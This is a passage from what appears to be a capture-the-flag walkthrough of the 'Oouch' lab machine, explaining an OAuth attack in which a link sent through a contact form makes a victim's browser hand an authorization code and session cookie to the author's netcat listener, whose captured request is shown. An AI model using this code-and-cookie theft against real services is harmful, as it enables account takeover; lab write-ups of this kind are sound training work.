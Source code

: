 

About a minute after sending this through the contact form, someone
clicks on it from Oouch, and this request comes back:



    root@kali# nc -lnvp 80
    listening on [any] 80 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 45972
    GET /token?code=9a5Q0yBlx7ONDslRKGlulr6a7i8vOM HTTP/1.1
    Host: 10.10.14.6
    User-Agent: python-requests/2.21.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Cookie: sessionid=0wlwoshe5nbpgmgw7357g0a9fgq4xowx;



What just happened? I sent a link that when clicked on started the
person who clicked in the process of telling the authentication server
that they wanted my application to get access to their data on the
authorization server, with the request marked in red below. What comes
back to my `nc` listener is the client's browser being redirected to my
application with the request marked in green:

[![](/img/image-20200730181927999.png)*Click
for full size